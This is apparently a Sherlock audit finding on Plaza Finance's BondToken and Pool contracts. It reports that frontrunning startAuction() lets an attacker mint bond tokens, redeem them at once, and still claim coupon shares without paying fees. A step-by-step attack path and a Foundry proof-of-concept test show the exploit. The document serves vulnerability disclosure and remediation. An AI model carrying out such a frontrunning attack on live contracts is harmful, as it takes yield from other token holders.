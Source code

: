 Sleepy Mustard Opossum

High

# Attackers not only avoid to pay fees to the pool but also gain extra coupon tokens at just one moment

### Summary

The asset periods are divided by auctions. If an attacker buys bond tokens right before the auction starts and redeems them right after the auction with high value, they will receive a number of coupon token shares and also pay no fees.

### Root Cause

In [Bondtoken.sol](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/BondToken.sol#L217C3-L229C4), the current period is increased, and [updateIndexedUserAssets()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/BondToken.sol#L172C3-L180C4) updates the amount of coupon token shares held by the user based on the current period. However, the moment of increasing the current period is determined by the [start of auction](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L530C3-L572C1).

```solidity
function startAuction() external whenNotPaused() {
    ...
    // Increase the bond token period
    bondToken.increaseIndexedAssetPeriod(sharesPerToken);
    ...
}
```

This means that if a user buys bond tokens before the auction starts, they can claim coupon tokens corresponding to the bond token amount at any time after the auction ends. In fact, at some moment that satisfies the [condition](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L531C5-L535C110), anyone can start the auction. The attacker seeks this moment and buys bond tokens by frontrunning this transaction. Then, after the auction starts, they redeem their tokens immediately. In this case, the attacker not only redeems the whole amount of their reserve tokens but also gains coupon tokens at just one moment. The amount of coupon tokens can be substantial if they buy a significant number of bond tokens.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

1. Alice monitors the state of auctions in the mempool.
2. Bob calls the [startAuction()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L530C3-L571C4) under the proper condition.
3. Alice creates a number of bond tokens and frontruns Bob.
4. Right after both transactions succeed, Alice redeems her reserve tokens again.

### Impact

The attacker receives a number of coupon token shares and pays no fees.

### PoC

```solidity
function test_CunningCase() public {    
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);

    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 500 ether, 250 ether, "", "", "", "", false));
    pool_1 = pool;
    pool.setAuctionPeriod(10 days);

    Token sharesToken = Token(pool.couponToken());
    Distributor distributor = Distributor(poolFactory.distributors(address(pool)));
    
    pool.bondToken().grantRole(pool.bondToken().DISTRIBUTOR_ROLE(), governance);
    pool.bondToken().grantRole(pool.bondToken().DISTRIBUTOR_ROLE(), address(distributor));

    uint256 coupons = params.sharesPerToken * 1000 + params.sharesPerToken * 10000 / 10**pool.bondToken().SHARES_DECIMALS();
    sharesToken.mint(address(pool), 3 * coupons * 10**sharesToken.decimals());
    sharesToken.mint(address(distributor), 3 * coupons * 10**sharesToken.decimals());

    vm.stopPrank();

    vm.startPrank(user);

    vm.warp(block.timestamp + 5 days);
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    // Attacker creates bond tokens by frontrunning the start of an auction
    // Attacker deposits 1000 ether
    rToken.mint(user, 1000 ether);
    rToken.approve(address(pool), 1000 ether);
    uint256 bondAmount = pool.create(Pool.TokenType.BOND, 1000 ether, 0);
    
    // Anyone can start auction under proper conditions
    pool.startAuction();

    // Right after the auction starts, attacker redeems their reserves
    mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    pool.bondToken().approve(address(pool), bondAmount);
    uint256 redeemedAmount = pool.redeem(Pool.TokenType.BOND, bondAmount, 0);

    // Then auction period passes, auction ends
    vm.warp(block.timestamp + 11 days);

    // Pool distributes shares to distributor
    vm.startPrank(address(pool));
    distributor.allocate(3 * 10 ** 36);
    vm.stopPrank();

    // Attacker claims their coupon token shares
    vm.startPrank(user);
    distributor.claim();    // shares : 1.5e36

    // [Revert] invalid: 1000000000000000000000 >= 1000000000000000000000
    assertLt(redeemedAmount, 1000 ether, "invalid");    // redeemedAmount : 1e21
}
```

### Mitigation

Consider adding a new variable to restrict the period between creation and redemption for the same users.